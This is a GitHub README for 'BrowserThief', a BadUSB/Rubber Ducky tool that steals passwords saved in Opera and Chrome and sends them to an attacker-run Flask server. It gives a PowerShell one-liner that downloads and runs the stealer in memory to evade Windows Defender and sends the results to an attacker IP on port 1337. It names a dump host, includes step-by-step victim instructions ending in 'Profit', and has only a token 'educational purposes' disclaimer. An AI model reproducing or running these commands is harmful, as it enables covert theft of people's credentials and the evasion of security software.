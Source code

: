 # BrowserThief
All in one Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. It currently extract passwords from **Opera/OperaGX/Chrome**, I will be adding support for more browsers like Firefox soon!
<br/><br/>
## Features
- The powershell script can be run in-memory without writing to disk which evades Windows Defender detection
- Includes an arduino RubberDucky script that runs in less than 2 seconds
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```
<br/><br/>
## Instructions

-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/ScribblerCoder/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰
<br/><br/>
## PoC

### Victim POV
Just plug your bad usb and watch the magic
<p align="center">
<img src="test/victim.gif?raw=true" width="800">
</p>
<br/>

### Attacker POV
<p align="center">
<img src="test/attacker.gif?raw=true" width="800">
</p>

<br/>

## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project
